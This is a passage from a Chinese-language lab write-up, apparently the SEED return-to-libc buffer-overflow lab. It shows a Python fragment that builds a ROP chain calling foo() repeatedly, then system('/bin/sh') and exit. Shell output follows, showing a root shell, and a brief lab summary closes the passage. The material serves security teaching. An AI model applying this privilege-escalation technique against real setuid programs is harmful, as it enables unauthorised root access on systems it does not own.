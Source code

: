 ```python

## system("/bin/sh")
ebp_next += 0x20
content += tobytes(ebp_next)
content += tobytes(system_addr)
content += tobytes(leaveret)
content += tobytes(sh_addr)
content += b'A' * (0x20 - 4*4)

## exit()
content += tobytes(0xFFFFFFFF)
content += tobytes(exit_addr)

## Write the content to a file
with open("badfile", "wb") as f:
    f.write (content)
```

运行程序，可以看到调用了 10 次 `foo()` ，并成功提权

```shell
$ ./exploit.py
$ ./retlib
ffffd3e3
Address of input[] inside main():  0xffffcd7c
Input size: 576
Address of buffer[] inside bof():  0xffffcd40
Frame Pointer value inside bof():  0xffffcd58
Function foo() is invoked 1 times
Function foo() is invoked 2 times
Function foo() is invoked 3 times
Function foo() is invoked 4 times
Function foo() is invoked 5 times
Function foo() is invoked 6 times
Function foo() is invoked 7 times
Function foo() is invoked 8 times
Function foo() is invoked 9 times
Function foo() is invoked 10 times
# whoami
root
```

## 实验总结

实验总体难度一般。Task1 - 3 依葫芦画瓢即可，没有难度；Task4 难度较大，但我大炮轰蚊子，直接用 ROP 解决了 0 如何输入的问题；由此一来，Task5 就很容易解决了。
